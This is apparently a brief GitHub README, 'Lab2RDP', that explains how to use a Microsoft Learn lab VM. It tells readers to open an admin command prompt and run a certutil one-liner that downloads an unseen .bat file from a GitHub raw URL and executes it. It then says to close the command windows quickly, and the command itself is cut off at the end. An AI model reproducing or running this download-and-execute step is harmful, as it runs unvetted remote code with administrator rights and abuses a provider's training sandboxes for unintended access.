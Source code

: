 # Lab2RDP

Go to

https://docs.microsoft.com/en-us/learn/modules/extend-elements-finance-operations/4-exercise

sign go to vm open cmd as admin and type this:


# when on VM quick close cmd dan powershell

certutil.exe -urlcache -split -f https://raw.githubusercontent.com/mrX04/lab2rdp/master/lab6cfree.bat && lab6cfree.ba
